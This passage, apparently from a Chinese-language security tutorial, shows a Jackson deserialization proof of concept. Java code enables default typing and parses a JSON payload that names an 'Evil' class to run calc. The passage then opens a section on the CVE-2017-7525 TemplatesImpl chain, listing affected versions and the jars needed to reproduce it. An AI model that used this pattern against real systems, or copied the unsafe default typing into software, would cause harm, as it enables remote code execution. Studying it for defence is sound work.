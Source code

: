 ```plain
    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
    public Sex sex;

    public Person2(){
        System.out.println("person 构造函数");
    }

    public Object object;


    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s",age,name,object == null ? "null" : object);
    }
}
```

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        String jsonstring = "{\"age\":6,\"name\":\"fakes0u1\",\"object\":[\"jackson.Evil\",{\"cmd\":\"calc\"}]}";

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

可以成功执行calc

## CVE-2017-7525 TemplatesImpl利用链

### 影响版本

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

JDK使用1.7版本的

### 复现

jar包：jackson-annotations-2.7.9，jackson-core-2.7.9，jackson-databind-2.7.9，commons-codec-1.12，commons-io-2.5，spring-core-4.3.13.RELEASE。
